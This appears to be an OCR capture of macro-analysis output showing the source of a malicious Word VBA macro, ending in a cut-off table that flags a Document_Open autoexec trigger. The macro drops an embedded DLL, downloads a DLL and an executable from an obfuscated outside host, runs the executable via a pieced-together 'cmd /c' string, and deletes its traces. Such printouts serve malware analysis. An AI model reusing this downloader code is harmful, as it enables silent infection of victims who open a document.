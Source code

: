 ```
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    FuEmdPath2 = Environ("PUBLIC") & "\sl2.tmp"
    em.Text = lgstr
    em.DataType = "bin.base64"
    Stream.Type = 1
    Stream.Open
    Stream.Write em.NodeTypedValue
    Stream.SaveToFile FuEmdPath2, 2
    Dim lb As LongPtr
    Dim pa As LongPtr
    Dim pas As LongPtr
    Dim retValue As Long
    Dim Gud As String
    Dim hCurprocess As Boolean
    Dim Embedded As String
    Dim Outp As String
    ActiveDocument.Content.Font.Hidden = False
    lb = LoadLibrary(FuEmdPath1)
    pa = GetProcAddress(lb, "RCT")
    If pa < 1 Then
    FreeLibrary (lb)
    lb = LoadLibrary(FuEmdPath2)
    pa = GetProcAddress(lb, "RCT")
    End If
    pas = GetProcAddress(lb, "RCP")


    Gud = MyDecode("aHR0cHM6Ly9hcm15YmFyLmhvcHRvLm9yZy9Mb2dpTWFpbC5kbGwJc34DSga")  'Dllurl

    Outp = Environ("LOCALAPPDATA") + MyDecode("XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWwuZGxs")
    retValue = CallWindowProc(pa, ByVal 1&, ByVal 2&, Gud, Outp)


    Gud = MyDecode("aHR0cHM6Ly9hcm15YmFyLmhvcHRvLm9yZy9Mb2dpTWFpbEFwcC5leGUJc34DSga") 'Exeurl


    Outp = Environ("LOCALAPPDATA") + MyDecode("XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWxBcHAuZXhl")
    retValue = CallWindowProc(pa, ByVal 1&, ByVal 2&, Gud, Outp)
    Embedded = "c" & "m" & "d" & " /c " & Outp
    retValue = CallWindowProc(pas, ByVal 1&, ByVal 2&, Gud, Embedded)
    FreeLibrary (lb)

    Dim filesys
    Set filesys = CreateObject("Scripting.FileSystemObject")
    If filesys.FileExists(FuEmdPath1) Then
    filesys.DeleteFile FuEmdPath1
    End If
    If filesys.FileExists(FuEmdPath2) Then
    filesys.DeleteFile FuEmdPath2
    End If

End Sub


+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
```